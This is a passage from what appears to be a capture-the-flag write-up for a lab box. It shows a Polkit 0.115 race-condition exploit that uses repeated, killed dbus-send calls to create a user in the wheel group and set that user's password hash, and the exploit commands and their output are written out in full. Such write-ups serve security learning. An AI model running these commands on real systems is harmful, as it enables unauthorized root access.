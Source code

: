 According to the output of this command, Polkit version `0.115` is installed, so
it should be vulnerable to this CVE!

### Preparation

The box provides us with a `poc.sh` file to exploit it. I tried to exploit this
CVE manually but it failed, so I'll use it.

This script exploits this CVE to create a new user. Therefore, the goal will be
to create a `dummy` user with the `5up3rdup3r53cr37p455w0rd!` password.

However we need a password hash, and not a cleartext password, so let's hash it
with the SHA-512 algorithm:

```sh
❯ openssl passwd -6 '5up3rdup3r53cr37p455w0rd!'
```

```
$6$S7gVDgHvvW/e4oC1$ycineGMsXBwydZJnMTkrgd0IN7mAMhIaB/I80lbsFfg1hoBXpjanYPu3bEYoH04SSEP1WAdBQ560WtVEHRlHP1
```

### Exploitation

Let's send a D-Bus message to create a new user:

```sh
[dwight@paper ~]$ for i in {1..100}; do \
                      dbus-send --system --dest="org.freedesktop.Accounts" --type="method_call" --print-reply "/org/freedesktop/Accounts" "org.freedesktop.Accounts.CreateUser" string:"dummy" string:"Don't mind me!" int32:"1" & \
                      sleep 0.005s; \
                      kill "$!"; \
                  done
```

Our user was successfully created:

```sh
[dwight@paper ~]$ id "dummy"
```

```
uid=1005(dummy) gid=1005(dummy) groups=1005(dummy),10(wheel)
```

Now let's change its password to the SHA-512 hash we generated.

```sh
[dwight@paper ~]$ for i in {1..100}; do \
                      dbus-send --system --dest="org.freedesktop.Accounts" --type="method_call" --print-reply "/org/freedesktop/Accounts/User1005" "org.freedesktop.Accounts.User.SetPassword" string:'$6$S7gVDgHvvW/e4oC1$ycineGMsXBwydZJnMTkrgd0IN7mAMhIaB/I80lbsFfg1hoBXpjanYPu3bEYoH04SSEP1WAdBQ560WtVEHRlHP1' string:"Don't mind me!" & \
                      sleep "0.005s"; \
                      kill "$!"; \
                  done
```

